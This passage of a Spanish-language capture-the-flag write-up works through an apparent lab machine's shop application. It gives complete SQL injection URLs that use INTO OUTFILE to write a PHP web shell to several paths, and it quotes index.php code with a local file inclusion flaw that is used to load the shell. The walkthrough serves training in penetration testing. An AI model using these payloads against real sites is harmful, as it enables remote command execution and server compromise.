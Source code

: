 
`http://10.129.229.87/shop/index.php?page=product&id=%0A100%27+union+select+1,%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);%20?%3E%22,3,4,5,6,7,8+into+outfile+"/var/www/html/pointed.php"--+-1`

No tenemos permisos para crear archivos en la aplicación web. Esperable.

Revisando el archivo `/var/www/html/shop/index.php` vemos que es vulnerable a un LFI y además se concatena la extensión `.php` al final, y como lo que queremos es cargar un archivo PHP, nos viene al pelo.
```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

Podemos probar a crearlo en `/tmp/pointed.php`
`http://10.129.229.87/shop/index.php?page=product&id=%0A100%27+union+select+1,%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);%20?%3E%22,3,4,5,6,7,8+into+outfile+%22/tmp/pointed.php%22--+-1`

Por alguna razón a `/tmp/pointed.php` no puedo subir el archivo.
![Write-up Image](images/Screenshot_14.png)

Pero si probamos a subirlo a `http://10.129.229.87/shop/index.php?page=product&id=%0A100%27+union+select+1,%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);%20?%3E%22,3,4,5,6,7,8+into+outfile+%22/dev/shm/pointed.php%22--+-1`
